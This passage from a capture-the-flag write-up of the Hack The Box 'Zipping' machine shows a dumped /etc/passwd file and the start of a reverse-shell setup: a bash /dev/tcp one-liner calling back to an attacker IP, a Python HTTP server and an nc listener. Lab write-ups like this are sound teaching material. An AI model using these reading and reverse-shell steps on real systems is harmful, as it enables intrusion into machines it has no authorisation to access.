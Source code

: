 Now, Let's try to enumerate some more files.

Doing the same with `/etc/passwd` we get the following result.

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/zipping]
└──╼ $cat passwd.pdf 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:103:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:109::/nonexistent:/usr/sbin/nologin
systemd-resolve:x:104:110:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
rektsu:x:1001:1001::/home/rektsu:/bin/bash
mysql:x:107:115:MySQL Server,,,:/nonexistent:/bin/false
_laurel:x:999:999::/var/log/laurel:/bin/false
```

As we can see the user name is `rektsu`.

## User Flag

On analyzing some more files, we can enable sql injection by bypassing the regexp.

Let's generate a reverse shell first and start a python server.

```
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/zipping]
└──╼ $echo "bash -c 'bash -i >& /dev/tcp/10.10.16.63/1111 0>&1'" > revshell.sh
┌─[elliot@elliot-vmwarevirtualplatform]─[~/Desktop/htb/zipping]
└──╼ $python -m http.server 
```

Lets start a nc listener as well.
```
$ nc -lvnp 1111
```
